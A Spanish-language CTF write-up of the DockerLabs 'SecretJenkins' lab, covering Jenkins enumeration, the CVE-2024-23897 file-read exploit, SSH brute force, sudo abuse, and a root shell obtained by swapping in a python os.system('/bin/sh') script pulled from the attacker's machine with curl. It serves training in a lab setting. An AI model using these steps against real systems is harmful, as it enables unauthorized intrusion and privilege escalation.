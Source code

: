 ```yaml
---
title: SecretJenkins - DockerLabs
published: true
categories: DockerLabs
---
```


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Fácil       | ElPinguinoDeMario | 

# Reconocimiento

Tenemos el puerto 22 y el puerto 8080 abiertos.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/ffed63a6-58f3-4b19-aca0-ef157a3f4c52)

## Puerto 8080

Exploramos el puerto 8080 y encontramos una página de inicio de sesión de Jenkins.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/0ec45e26-45a0-43c8-864d-7179685f9635)

Realizamos un reconocimiento con gobuster y encontramos varias rutas.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/17f3f48e-52a3-46b9-a031-d2e4e0b74984)

Descubrimos la ruta `/Index` que muestra dos usuarios.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/19d1b638-d527-4193-9eb1-a3a2316a1e07)

Gobuster también encontró la ruta `/main`.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/a741f4fe-5508-440a-8d79-79799c36447b)

Esta ruta nos muestra la versión de Jenkins, lo que nos permite buscar exploits.

Encontramos un exploit en [GitHub - CVE-2024-23897](https://github.com/godylockz/CVE-2024-23897). Esta versión de Jenkins es vulnerable a un LFI.

Ejecutamos el script del exploit y podemos ver archivos del sistema. Listamos el contenido de `/etc/passwd` para ver los usuarios existentes.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/881f4dc8-6ef8-4f43-85db-920860576b0a)

Encontramos los usuarios `pinguinito` y `bobby`. Realizamos un ataque de fuerza bruta para encontrar la contraseña por SSH y logramos encontrarla.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/0d6e45ba-8dda-4e14-a7ad-4a447824cac3)

Para el usuario `bobby`, la contraseña es `chocolate`. Iniciamos sesión en SSH.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/35120cf7-026c-4899-a0a0-f18418e7b409)

Ejecutamos `sudo -l` y vemos que podemos escalar privilegios a `pinguinito` utilizando `python3`.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/8b554858-2e4f-41b4-b658-309e673cd330)

Ahora somos `pinguinito`. Ejecutamos `sudo -l` de nuevo y descubrimos que podemos ejecutar un script como root sin proporcionar la contraseña. Inspeccionamos el script.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/cbea6aaa-6e52-4950-a70d-bea137a23254)


Eliminamos el script de `/opt` y creamos uno nuevo en nuestra máquina atacante que abrirá una terminal con el siguiente código:

```python
import os

os.system("/bin/sh")
```

Subimos el script a la máquina víctima de la siguiente manera:

En la máquina atacante:

```bash
python -m http.server 80
```

En la máquina víctima:

```bash
curl -O http://172.17.0.2
```

Ejecutamos el script como root y obtenemos una shell como root.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/63355776-2979-46c9-807e-2b0dff15588c)

